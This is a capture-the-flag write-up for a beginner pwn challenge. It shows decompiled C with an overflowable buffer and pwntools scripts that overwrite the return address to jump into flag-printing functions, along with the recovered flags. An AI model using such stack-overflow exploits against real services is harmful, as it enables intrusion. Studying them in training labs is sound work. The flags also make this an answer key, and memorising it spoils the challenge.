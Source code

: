 # **Name: hulk_enterprises**
**Category:** pwn
**Points:** 140 (2 flags)
**Description:**
hulk it.

```py
#!/usr/bin/python

from pwn import *
context.terminal = ['tmux', 'split']

p = gdb.debug("./censored_chal", '''
           # Set the follow-fork-mode to "parent"
           break main
           ''')

p.interactive()
```

- Flag 1: 70 points
  - Access: nc chal.ctf-league.osusec.org 1309
  - Download: https://chal.ctf-league.osusec.org/pwn/hulk/censored_chal
- Flag 2: 70 points

## First access

connecting to the server we get the following output:

```shell
Hello!
Welcome to HULK Enterprise's Linux Library!
Welcome, new user!
What username would you like to use?
```

inputting anything into the server after this results in the server closing and nothing happening

after that we take a look a the binary to try and find anything interesting.

## Looking at the binary

using a decomplier on the source code we can see two points on interest that will give us a flag

### POI 1

```c
void read_flag(void) {
  char local_30 [32];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  local_30[0] = '\0';
    ...
  local_30[0x1f] = '\0';
  fread(local_30,1,0x1f,local_10);
  puts(local_30);
  fflush(_stdout);
  return;
}
```

### POI 2

```c
void menu(int param_1) {
  char local_1c [20];
  if (param_1 == -0x35012ff3) {
    puts("censored_the_flag\ngoodbye, admin\n");
    fflush(_stdout);
  }
  else {
    puts("Welcome, new user!");
    puts("What username would you like to use?");
    fflush(_stdout);
    fgets(local_1c,0xff,_stdin);
    puts(local_1c);
    puts("registered! goodbye.");
    fflush(_stdout);
  }
  return;
}
```

## Exploiting the binary

so we know where to try and get the flags from, we just have to figure out how to get them.

based on the small lecture before the challenge was released we have to use the binary assembly to get the addresses of the functions and jump to them to get the flags somehow.

### Getting the addresses

Since i was doing this on an m1 mac I tried to use a kali linux vm to be able to run the binary and get the addresses of the functions through gdb but even the vm was encountering issues with executing the binary, but i was able to use ghidra locally to get the addresses of the functions. (I was using an online decomplier that did not show the assembly previouslly)

Here i was able to see where the functions were located in the binary and actually get the addresses of the functions.

the first flag, within the funciton 'read_flag' was located at the address '08049192' and the second flag, which was located in the function 'menu' was located at the address '08049234'

### Jumping to the functions

cool so now we know where to jump to in the binary, we just have to figure out how to jump to them.

One of the officers's gave us a hint that we could use 'pwntools' to jump to the functions, so with a little googling ~~and maybe a second hint~~ we were able to figure out how to jump to the functions.

```python
from pwn import *
context.terminal = ['tmux', 'split']

p = remote("chal.ctf-league.osusec.org", 1309)
p.sendline(b"hi" + p32(0x08049240))
p.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaa" + p32(0x08049192) + p32(0x08049192))
p.interactive()
```

the code above is the result of multiple trial and errors of trying to get past the buffers and jump to the functions.

but eventually after getting 24 'a's in the first input and overwrite the stack with the address of the function 'read_flag' we were able to get the first flag.

### Flag 1

```shell
osu{fun_and_profit}
```

## Getting the second flag

after we got the first flag, all it leaves is the second flag, which is located in the function 'menu'

this requires a bit more work as we have to set the parameter of the function to the correct value to get the flag.

We started with just copying the same code from the first flag and changing the address of the function to the address of the function 'menu'.

```python
from pwn import *
context.terminal = ['tmux', 'split']

p = remote("chal.ctf-league.osusec.org", 1309)
p.sendline(b"a" *   28  + p32(0x08049234) + p32(0xcafed00d) + p32(0xcafed00d) )
p.interactive("")
```

but we did change the garbage input of the first input to get past the buffer, since it is way easier to change/know how many a's we are sending (or bytes in general).

next we took a closer look at the function 'menu' and just copy and pasted the value it was checking for into the code to send to the server. 

this alone did not work, so we tried to increase the amount of 'a's we were sending to the server to see if we could get the flag.

and that did work, we were able to get the second flag, we needed a total of 28 'a's (or bytes) to get past the buffer and then we were able to get the flag.

### Flag 2

```shell
osu{args_or_ret?}
```

## Other ideas I had that did not work

- tried to jump directly to the if statement in the function 'menu' 
- tried to jump to the function 'menu' and then jump to the if statement
- tried to get past input sanitization

**I do not own nor did I create the content for this challenge. This is a writeup for the challenge that I solved**

